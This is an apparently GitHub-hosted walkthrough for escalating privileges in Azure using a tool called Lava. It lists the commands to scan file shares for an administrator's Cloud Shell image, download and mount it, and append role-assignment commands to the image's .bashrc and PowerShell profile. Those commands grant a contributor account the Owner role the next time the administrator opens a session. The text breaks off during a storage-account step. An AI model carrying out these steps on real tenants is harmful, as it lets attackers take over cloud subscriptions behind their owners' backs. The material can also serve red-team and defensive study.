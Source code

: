 # Privilege Escalation using the Cloud Shell Account

## Steps

 - az login -u CONTRIBUTOR_USER@DOMAIN.LOCAL -p PASSWORD (Authenticate with the contributor account)

 - python3 lava.py

 - Lava $> exec priv_show (Verify the current user and permissions)

 - Lava $> exec stg_file_scan (Scan the file shares in the Azure subscription for potential Cloud Shell images)

 - Lava $> exec stg_file_download (Downloads the file into a temporary directory. Make note of the download location.)

 - exit

 - mount DOWNLOAD_LOCATION/.cloudconsole/acc_azureadmin.img /mnt (Mount the downloaded image file)

 - ls /mnt/ (Explore the mounted drive with this command, then press tab)

 - cd /mnt (Change directory to the mounted drive)

 - echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc (Append a malicious command to the .bashrc file to escalate the privileges of our current user)

### Do do the same for a Powershell session we can do:

 - mkdir .config

 - mkdir .config/PowerShell

 - echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1 (Same trick as Linux)

 - cd ..

 - umount /mnt (Unmount the drive from your session)

 - az storage account list --query [].name -o tsv

 - storagename=STORAGE_ACCT_NAME

